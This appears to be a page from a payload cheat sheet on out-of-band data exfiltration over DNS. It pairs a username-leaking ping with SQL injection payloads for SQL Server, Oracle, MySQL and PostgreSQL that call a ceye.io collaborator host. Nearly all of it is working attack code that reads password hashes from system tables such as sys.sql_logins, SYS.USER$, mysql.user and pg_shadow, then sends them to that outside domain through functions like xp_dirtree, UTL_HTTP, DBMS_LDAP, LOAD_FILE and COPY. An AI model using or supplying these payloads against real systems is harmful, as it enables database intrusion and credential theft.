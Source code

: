 ```bash
ping %USERNAME%.b182oj.ceye.io
```

#### 0x01 SQL Injection

##### i. SQL Server

```sql
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');
```

##### ii. Oracle

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

##### iii. MySQL

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

##### iv. PostgreSQL

```sql
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```
